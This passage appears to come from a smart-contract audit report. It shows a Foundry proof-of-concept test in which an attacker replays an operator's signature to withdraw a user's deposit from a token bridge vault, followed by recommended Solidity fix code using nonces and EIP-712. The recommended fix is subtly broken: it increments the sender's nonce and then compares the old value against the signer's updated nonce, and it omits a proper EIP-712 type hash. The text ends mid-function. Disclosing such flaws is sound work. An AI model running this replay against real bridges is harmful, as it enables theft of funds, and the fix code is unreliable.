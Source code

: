 ```
     (uint8 v, bytes32 r, bytes32 s) = _signMessage(_getTokenWithdrawalMessage(user, depositAmount), operator.key);
    
     vm.startPrank(attacker);
     tokenBridge.sendToL1(v, r, s, _getTokenWithdrawalMessage(attacker, depositAmount));
    
     uint256 attackerAfterAmount = token.balanceOf(address(attacker));
    
     assertTrue(attackerAfterAmount > attackerBeforeAmount, "Replay attack was successful");
     console.log("Attacker Amount After Withdrawal:", attackerAfterAmount);
     assertEq(token.balanceOf(address(vault)), 0);
     vm.stopPrank();
}
```

## Tools Used

- Foundry and manual review

## Recommendations

To prevent replay attacks in the provided code, you can introduce a nonce and use **Ethereum's EIP-712** standard for signing messages. Here's what you should do:

```solidity
// Define a mapping to store nonces for each signer
mapping(address => uint256) public nonces;

function withdrawTokensToL1(address to, uint256 amount, uint8 v, bytes32 r, bytes32 s) external {
    // Create a unique nonce for this transaction
    uint256 nonce = nonces[msg.sender]++;
    
    // Construct the message to be signed using EIP-712 format
    bytes32 messageHash = keccak256(
        abi.encodePacked(
            "\x19\x01",
            getDomainSeparator(),
            keccak256(abi.encodePacked(
                address(this),
                to,
                amount,
                nonce
            ))
        )
    );

    address signer = ECDSA.recover(messageHash, v, r, s);

    // Check if the recovered signer is valid
    require(signers[signer], "Invalid signer");

    // Ensure the nonce is valid and not already used
    require(nonce == nonces[signer], "Invalid nonce");

    // Proceed with the token withdrawal logic
    token.transferFrom(vault, to, amount);
}

// Define the EIP-712 domain separator
function getDomainSeparator() public view returns (bytes32) {
    return keccak256(
        abi.encode(
```